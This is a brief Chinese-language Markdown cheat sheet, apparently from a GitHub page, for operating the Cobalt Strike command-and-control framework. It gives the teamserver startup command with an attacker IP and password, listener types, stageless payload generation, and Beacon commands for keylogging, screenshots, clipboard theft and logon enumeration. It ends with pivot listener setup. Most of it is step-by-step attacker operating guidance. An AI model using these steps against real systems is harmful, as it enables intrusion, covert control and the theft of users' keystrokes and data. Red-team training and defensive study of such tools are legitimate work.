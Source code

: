 
# 基本
- **建立服务器（攻击者）:**
```bash
sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
sudo ./teamserver [Attack IP] [Set Password] [配置文件]
```

- **链接服务器（攻击者）：**
直接启动 Cobalt Strike 客户端然后输入凭据链接即可。


#### 被动信息收集
Attack > System Profiler
可以设置重定向，后复制网址到被攻击机器，访问后就可以得到机器的基本信息。


#### 设置监听器
**http** (出口监听器)
**dns** (出口监听器)
**smb (p2p)** ：  可以使用 `PS C: \> ls \\.\pipe\` 列出所有当前正在收听的管道以获取灵感。
比如说 `TSVCPIPE-7ca725ce-7220-489f-a9b5-d4cad2bc1337`
**tcp**
**tcp-local**


#### 生成有效载荷
在 Payloads 中选择 `Windows Stageless Generate All Payloads`，生成所有有效载荷, 执行 http_x64.exe 后即可收到回应。


#### 命令 (Beacon)
```
pwd   当前目录路径
sleep 5   更快的回应
ps
screenshot
keylogger  (View > Keystrokes)    (使用jobs可以查看任务，jobkill ID 可以杀死keylogger的job)
clipboard  （粘贴板内容）
net logons  (用户登录会话)
run wmic service get name, pathname  (每个服务的列表及其可执行文件的路径)
shell + CMD

```


#### 数据透视侦听器
作用为转发流量，隐藏活动等
在图像界面右键 Attack 然后 Pivoting > Listener, 创建 demo-pivot
生成有效载荷： Payloads > Windows Executable (Stageless), 选中刚刚创建的 demo-pivot , 生成后直接执行即可。

